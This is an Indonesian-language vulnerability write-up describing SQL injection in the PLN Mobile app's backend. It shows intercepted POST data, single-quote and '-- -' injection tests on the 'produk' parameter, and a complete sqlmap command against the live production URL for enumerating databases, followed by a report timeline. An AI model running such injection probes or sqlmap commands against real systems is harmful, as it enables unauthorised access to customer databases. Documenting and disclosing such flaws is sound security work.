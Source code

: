 ```yaml
---
title: SQL Injection at Subdomain iconpln.co.id (Intercept Application Mobile)
date: 2020-08-17
---
```


![ ](https://miro.medium.com/max/600/1*nmPP_fIUsZoBn408ydemgA.jpeg)

Halo semuanya, Kali ini saya mau menulis write up sederhana yaitu Vulnerability SQL Injection di http://mobileapps.iconpln.co.id

Penemuan ini bermula dari saya melihat tagihan pembayaran listrik dirumah saya dan membuka aplikasi PLN Mobile Android.

Saya berpikir untuk melakukan intercept menggunakan Burpsuite pada aplikasi PLN Mobile. Sebelumnya saya mengkonfigurasi Burpsuite agar bisa melakukan intercept http request di aplikasi android

Pada tahap selanjutnya, saya melakukan intercept di bagian “informasi tarif listrik berlaku”

![ ](https://miro.medium.com/max/2400/1*sM-XM_wRWyRgYhCGpIMd1Q.jpeg)

Dan ini dia hasil intercept nya

![ ](https://miro.medium.com/max/2400/1*uMJRVAuaFyrchkHysB1I8A.png)

Saya mendapatkan request url dan post datanya

> Request URL: http://mobileapps.iconpln.co.id/infotdlpln
> Post Data: kel=R&produk=PASCABAYAR&serial=2676912684812711463125741116100882149710822849775988211212784127367787&versi=451&id=2676912684812711463125741116100882149710822849775988211212784127367787

___

Selanjutnya saya memeriksa di post datanya apakah vulnerable SQLI atau tidak, saya
menginjeksikan dengan single quote pada parameter “produk”. Maka response nya adalah

![ ](https://miro.medium.com/max/2400/1*FIMQa81qYPey_9Wqavtu_Q.png)

“Error 500”

___

Awalnya saya tidak yakin bahwa Vulnerable SQLI, maka saya ingin memeriksanya lagi dengan menambahkan `-- -` setelah single quote. Maka response nya adalah

![ ](https://miro.medium.com/max/2400/1*c96BFoR_gr51BsuRoJL3CQ.png)

Responsnya adalah menampilkan data-data normal.
Jika response yang muncul menampilkan data - data normal ketika menambahkan `-- -` maka bisa di pastikan vulnerable terhadap SQLI (tidak semua bisa atau pasti, tetapi mungkin saja)

___

Selanjutnya saya melakukan scan di SQLmap dengan command

```
sqlmap -u https://mobileapps.iconpln.co.id/infotdlpln --data=”kel=R&produk=PASCABAYAR&serial=2676912684812711463125 741116100882149710822849775988211212784127367787&versi=451 &id=267691268481271146312574111610088214971082284977598821 1212784127367787” --level 3 --risk 3 --dbs --threads 10
```

Maka hasil scan nya adalah

![ ](https://miro.medium.com/max/2400/1*SP5nk4I_M_2yr6TfsUk3Hg.png)

Terakhir data HPH Token Gratis

![ ](https://miro.medium.com/max/2400/1*FD8wjTLyqsVrBHyVjWF9iw.png)

TETAPI DATA TAHUN 2017 HEHE...

___

## Timeline Report

+ 27 Juli, 2020 = Send report via email humas@iconpln.co.id

+ 28 Juli, 2020 = Send report via email bantuan70@bssn.go.id

+ 8 Agustus, 2020 = Send report via email pln123@pln.co.id

Sekian write up dari saya ini, mohon maaf apabila ada salah dalam penulisan kata. jangan lupa di share yaa, agar saya semangat untuk menulis write up kembali.

Contact me at [About Me](/about/)
